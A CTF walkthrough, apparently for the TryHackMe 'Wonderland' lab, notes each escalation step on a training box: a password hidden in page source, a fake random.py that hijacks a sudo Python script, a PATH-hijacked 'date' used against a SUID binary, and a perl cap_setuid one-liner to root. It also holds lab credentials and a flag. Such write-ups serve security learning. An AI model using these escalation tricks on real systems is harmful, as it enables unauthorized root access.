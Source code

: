 found directory 
```
http://10.10.85.105/r/
```

run gobuster again

```
http://10.10.85.105/r/a/
```

maybe the directories spell out rabbit?

found final page

```
http://10.10.85.105/r/a/b/b/i/t/
```

found this on page notes

```
<p style="display: none;">alice:HowDothTheLittleCrocodileImproveHisShiningTail</p>
```

found the user flag in the root directory
```
alice@wonderland:~$ cd /root
alice@wonderland:/root$ ls
ls: cannot open directory '.': Permission denied
alice@wonderland:/root$ cat user.txt
thm{"Curiouser and curiouser!"}
```
we will need this file to prev esc
```
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

walrus_and_the_carpenter.py prints 10 random lines from the poem,

this is importing from random.py

https://leemendelowitz.github.io/blog/how-does-python-find-packages.html

python finds imports from the current directory first then from subsequent directories in sys.path

```
alice@wonderland:~$ python3
Python 3.6.9 (default, Apr 18 2020, 01:56:04) 
[GCC 8.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import sys
>>> sys.path
['', '/usr/lib/python36.zip', '/usr/lib/python3.6', '/usr/lib/python3.6/lib-dynload', '/usr/local/lib/python3.6/dist-packages', '/usr/lib/python3/dist-packages']
```

create a file random.py in home directory to spawn shell

google - spawn shell

test with this

```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

create random.py with the above code 

then run command 

```
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
$ whoami
rabbit
```

SUID bit set on tea party
```
$ ls -la
total 40
drwxr-x--- 2 rabbit rabbit  4096 May 25 17:58 .
drwxr-xr-x 6 root   root    4096 May 25 17:52 ..
lrwxrwxrwx 1 root   root       9 May 25 17:53 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit   220 May 25 03:01 .bash_logout
-rw-r--r-- 1 rabbit rabbit  3771 May 25 03:01 .bashrc
-rw-r--r-- 1 rabbit rabbit   807 May 25 03:01 .profile
-rwsr-sr-x 1 root   root   16816 May 25 17:58 teaParty
```

if an executable has the setuid bit set on it, and it's owned by root, when launched by a normal user, it will run with root privileges

looks like the binary teaParty will be our priv esc vector


```
cat teaParty
```

it is a bit hard to read but we can see an interesting line

'Probably by ' && date --date='next hour'

it is calling a binary called date

create our fake date binary in the home directory

```
$ echo "/bin/bash" > date
```

try to run our binary
```
$ ./date
rabbit@wonderland:/home/rabbit$
```

yes it works and we have spawned a shell

now we want to trick the teaParty binary to call it so we can get root

we do this by changing the env $PATH variable so that it checks our home directory first for a binary

(we didn't have to do that for python earilier because python already checks the home directory by default)

```
rabbit@wonderland:/home/rabbit$ $PATH
bash: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin: No such file or directory
rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH
rabbit@wonderland:/home/rabbit$ $PATH
bash: /home/rabbit:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin: No such file or directory
```

run teaParty and we are now the user hatter

we find the password for hatter's ssh but nothing else in the home directory

```
hatter@wonderland:/home$ cd hatter
hatter@wonderland:/home/hatter$ ls
password.txt
hatter@wonderland:/home/hatter$ cat password.txt
WhyIsARavenLikeAWritingDesk?
```

copy linpeas onto box

found this with linpeas.sh

```
[+] Capabilities
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities                                                                                              
/usr/bin/perl5.26.1 = cap_setuid+ep                                                                                                                                       
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

check gtfo bins - under perl/capabilities

```
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
